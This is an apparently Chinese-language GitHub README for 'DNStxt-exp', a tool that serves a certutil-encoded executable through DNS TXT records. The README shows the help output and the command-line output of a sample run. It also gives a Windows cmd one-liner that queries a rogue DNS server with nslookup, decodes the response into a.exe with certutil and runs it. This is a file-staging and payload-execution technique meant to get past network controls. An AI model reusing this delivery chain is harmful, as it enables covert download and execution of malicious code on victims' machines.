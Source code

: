 # DNStxt-exp
一个提供查询 TXT 记录的 DNS 服务利用工具。例如：可配合 Windows 下的 certutil 工具传输小文件（64KB）

## HELP信息
```text
_____________   _____________       _____                            
___  __ \__  | / /_  ___/_  /____  ___  /_      _________  _________ 
__  / / /_   |/ /_____ \_  __/_  |/_/  __/_______  _ \_  |/_/__  __ \
_  /_/ /_  /|  / ____/ // /_ __>  < / /_ _/_____/  __/_>  < __  /_/ /
/_____/ /_/ |_/  /____/ \__/ /_/|_| \__/        \___//_/|_| _  .___/ 
                                                            /_/

DNStxt-exp Version: 0.0.1 -- Created by vaycore

Options:
  -f string
        Generate encode.txt file command: ==> certutil.exe -encode artifact.exe encode.txt <==
         (default "encode.txt")
  -flag string
        Add prefix flag to lines (default "exec")
  -name string
        DNS server name (default "public1.alidns.com")
  -p int
        DNS server port (default 53)
```

## 使用方式
利用 Windows 自带的 `certutil.exe` 工具，先在生成一个 `encode.txt` 文件，命令如下：

```shell
certutil.exe -encode <要传输的文件> encode.txt

#例如：
certutil.exe -encode artifact.exe encode.txt
```

将文件放到与 `DNStxt-exp` 程序同级，然后执行，执行结果如下

```text
$ ls
dnstxt-exp   encode.txt

$ ./dnstxt-exp
_____________   _____________       _____                            
___  __ \__  | / /_  ___/_  /____  ___  /_      _________  _________ 
__  / / /_   |/ /_____ \_  __/_  |/_/  __/_______  _ \_  |/_/__  __ \
_  /_/ /_  /|  / ____/ // /_ __>  < / /_ _/_____/  __/_>  < __  /_/ /
/_____/ /_/ |_/  /____/ \__/ /_/|_| \__/        \___//_/|_| _  .___/ 
                                                            /_/

DNStxt-exp Version: 0.0.1 -- Created by vaycore

Revert file and run:
cmd /v:on /Q /c "set a= && set b= && for /f "tokens=*" %i in ('nslookup -qt^=TXT www.baidu.com 0.0.0.0 ^| findstr "exec"') do (set a=%i && echo !a:~5,-2!)" > d.txt && certutil -decode d.txt a.exe && cmd /c a.exe

Start Listing ... 0.0.0.0:53, ServerName: public1.alidns.com
```

Windows 平台下使用 `nslookup` 工具查询和还原成文件命令（需要将下面的 `0.0.0.0` 配置 DNS 服务器的IP地址，`a.exe` 是目标文件）：

```shell
cmd /v:on /Q /c "set a= && set b= && for /f "tokens=*" %i in ('nslookup -qt^=TXT www.baidu.com 0.0.0.0 ^| findstr "exec"') do (set a=%i && echo !a:~5,-2!)" > d.txt && certutil -decode d.txt a.exe
```

## 参考文章

https://mp.weixin.qq.com/s/pxKmEO3_ljWSW7WhNQbSzQ
